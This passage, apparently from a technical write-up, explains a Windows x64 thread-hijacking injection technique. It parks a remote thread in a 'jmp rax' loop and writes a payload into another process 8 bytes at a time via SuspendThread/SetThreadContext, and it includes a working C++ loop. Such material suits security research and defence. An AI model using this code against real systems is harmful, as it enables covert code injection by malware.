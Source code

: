 The next problem we faced is where to return into. The first guess was to return into the [ExitThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitthread "ExitThread") function, however this did not seem to work (because of register values) and would only be viable if we were not reusing the thread later on. The next call we used was [SleepEx](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleepex "SleepEx"). Because of the [calling convention of x64](https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention "Calling convention of x64"), `rcx` would be our time to sleep, which would be extremely long if it was holding the value of our buffer. This worked, however the thread did not want to wake up anymore. Making the thread wait was mandatory, though, so why not create and infinite loop ourselves? We can achieve this by pushing an address to the stack which contained a `jmp` instruction to the same register we were pushing (in this case `rax`). 
What should happen is that `rax` gets pushed to the stack, part of our data gets copied to the buffer and it returns into the `jmp rax` instruction. However, rax is never cleared, so it is still pointing to `jmp rax` and therefore jumps to itself, and this goes on forever. 

Now having successfully made the thread wait for us to give it new data, we can do so in a loop, with each time writing the amount of bytes that will fit in our register (on x64 this is 8 bytes).

One catch, however, is that this takes time. A lot of time. This is because the thread will be writing part of the buffer `size / 8` times, and each iteration you have to wait to account for overhead.

Here is an example of what a loop for the iterations could look like

```cpp
for (int i = 0; i < size;) {

    /* zero the buffer */
    memset(&buf, 0, sizeof(buf));
   
    /* suspend the thread stuck in the infinite loop */
    SuspendThread(thread);

    /* copy part of the payload into buffer */
    memcpy(buf, (char*)local_buf + i, min(8, size - i));

    /*  set registers of thread */
    ctx.Rip = (uint64_t)gadget;     //address of our gadget
    ctx.Rax = (uint64_t)loop;       //address of our loop

    /* subtract 0x50 from address. The gadget will add it back */
    ctx.R8 = (uint64_t)((uint64_t)ptr + i) - 0x50;
    memcpy(&ctx.Rcx, buf, 8);

    std::this_thread::sleep_for(DELAY);

    /* Set the registers of the thread */
    if (!SetThreadContext(thread, (CONTEXT*)&ctx)) {
        CloseHandle(thread);
        thread = get_thread(_hProc);
        continue;
    }

    std::this_thread::sleep_for(DELAY);

    /* Resume the thread */
    while (ResumeThread(thread) != 1);

    std::this_thread::sleep_for(DELAY);

    /* increment value by size of register */
    i += sizeof(uintptr_t);
}
```
